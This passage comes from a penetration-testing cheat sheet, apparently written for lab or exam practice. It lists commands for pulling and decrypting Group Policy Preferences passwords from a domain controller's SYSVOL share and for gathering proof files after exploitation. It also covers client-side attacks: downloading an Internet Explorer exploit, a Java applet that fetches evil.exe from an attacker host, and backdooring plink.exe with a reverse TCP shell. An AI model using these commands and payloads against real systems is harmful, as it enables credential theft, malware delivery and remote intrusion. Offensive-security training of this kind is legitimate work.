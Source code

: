 -   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        
        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml  
        
        `dir /s Groups.xml`

    -   Review the contents for passwords  
        
        `type Groups.xml`

    -   Decrypt using GPP Decrypt  
        
        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`
        
-   Find and display the proof.txt or flag.txt - get the loot!
    
    `#meterpreter  >     run  post/windows/gather/win_privs`
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------
